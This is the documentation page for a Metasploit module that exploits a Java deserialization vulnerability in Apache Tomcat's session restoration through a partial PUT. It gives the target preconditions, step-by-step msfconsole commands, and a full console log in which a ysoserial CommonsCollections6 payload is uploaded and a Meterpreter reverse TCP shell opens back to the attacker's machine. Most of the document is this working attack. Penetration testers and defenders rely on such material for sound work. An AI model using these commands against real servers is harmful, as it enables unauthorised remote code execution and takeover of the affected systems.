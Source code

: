 ## Vulnerable Application
This module exploits a Java deserialization vulnerability in Apache Tomcat's session restoration functionality 
that can be exploited with a partial PUT to place an attacker controlled deserialization payload in the work directory. 
For the exploit to succeed, writes must be enabled for the default servlet, and `org.apache.catalina.session.PersistentManager` must be 
configured to use `org.apache.catalina.session.FileStore`.

## Testing
Set up a vulnerable Tomcat instance using https://github.com/PaloAltoNetworks/Unit42-timely-threat-intel/blob/main/2025-03-14-Testing-CVE-2025-24813.md#establishing-a-vulnerable-tomcat-configuration

## Verification Steps
1. Start msfconsole
2. `use multi/http/tomcat_partial_put_deserialization`
3. `set RHOST <TARGET_IP_ADDRESS>`
4. `set RPORT <TARGET_PORT>`
5. `set GADGET <YSOSERIAL_GADGET>`
6. `set LHOST eth0`
7. `check`
8. `exploit`

## Scenarios

### Linux Command

```
msf6 > use multi/http/tomcat_partial_put_deserialization
[*] Using configured payload cmd/unix/python/meterpreter/reverse_tcp
msf6 exploit(multi/http/tomcat_partial_put_deserialization) > set rport 8080
rport => 8080
msf6 exploit(multi/http/tomcat_partial_put_deserialization) > set rhost 192.168.178.93
rhost => 192.168.178.93
msf6 exploit(multi/http/tomcat_partial_put_deserialization) > set gadget CommonsCollections6
gadget => CommonsCollections6
msf6 exploit(multi/http/tomcat_partial_put_deserialization) > check
[+] 192.168.178.93:8080 - The target is vulnerable.
msf6 exploit(multi/http/tomcat_partial_put_deserialization) > run
[*] Started reverse TCP handler on 192.168.178.103:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable.
[*] Executing Unix Command for cmd/unix/python/meterpreter/reverse_tcp
[*] Utilizing CommonsCollections6 deserialization chain
[*] Uploaded ysoserial payload (qnuBmIxezf.session) via partial PUT
[*] Attempting to deserialize session file..
[+] 500 error response usually indicates success :)
[*] Sending stage (24772 bytes) to 192.168.178.93
[*] Meterpreter session 1 opened (192.168.178.103:4444 -> 192.168.178.93:40696) at 2025-04-02 09:59:48 +0100
```